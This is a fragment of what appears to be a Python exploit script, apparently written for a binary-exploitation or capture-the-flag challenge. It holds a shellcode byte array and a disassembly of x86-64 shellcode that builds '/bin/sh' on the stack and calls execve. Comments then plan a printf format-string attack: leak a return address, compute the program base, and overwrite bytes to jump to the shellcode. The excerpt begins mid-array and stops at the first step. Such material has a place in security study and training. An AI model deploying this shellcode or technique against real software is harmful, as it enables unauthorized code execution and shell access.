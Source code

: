 ```python
    [ 0x66, 0xc7, 0x47, 0x02, 0x69, 0x6e, 0xeb, 0x40 ],  # 408
]
for line in shellcode:
    if line[-1] != 0x05:
        line[-1] -= len(line)


# shellcode
"""
0000000000000000 <shellcode>:
   0:	48 8d 7c 24 f8       	lea    rdi,[rsp-0x8]
   5:	eb 70                	jmp    77 <shellcode+0x77>
  
   7:	66 c7 47 06 68 00    	mov    WORD PTR [rdi+0x6],0x68
   d:	eb 50                	jmp    5f <shellcode+0x5f>
  
  f:	66 c7 47 04 2f 73    	mov    WORD PTR [rdi+0x4],0x732f
  15:	eb 38                	jmp    4f <shellcode+0x4f>
  
  17:	66 c7 47 02 69 6e    	mov    WORD PTR [rdi+0x2],0x6e69
  1d:	eb 40                	jmp    5f <shellcode+0x5f>
  
  1f:	66 c7 07 2f 62       	mov    WORD PTR [rdi],0x622f
  24:	eb 18                	jmp    3e <shellcode+0x3e>

  26:	b0 3b                	mov    al,0x3b
  28:	31 f6                	xor    esi,esi
  2a:	31 d2                	xor    edx,edx
  2c:	0f 05                	syscall 

    lea rdi, [rsp-8]
    .byte 0xEB
    .byte 112
    mov word ptr[rdi+6], 0x68
    .byte 0xEB
    .byte 80
    mov word ptr[rdi+4], 0x732f
    .byte 0xEB
    .byte 56
    mov word ptr[rdi+2], 0x6e69
    .byte 0xEB
    .byte 64
    mov word ptr[rdi], 0x622f
    .byte 0xEB
    .byte 24

    mov al, 59
    xor esi, esi
    xor edx, edx
    syscall
"""

# need to find a return address (with printf leak), subtract from it the
# relative address of the instruction and obtain the program base address

# the address of the buffer can be obtained with `base_addr + buffer_start_offset`
# the address of the function currently stored in CODE can be calculated knowing
# it's relative address and the base address.
# finding the different bytes (which are the least significant) between the known
# shellcode location and the function is simple math, then the different bytes need
# to be written with printf

# step 1: leak a return address with the first printf string
```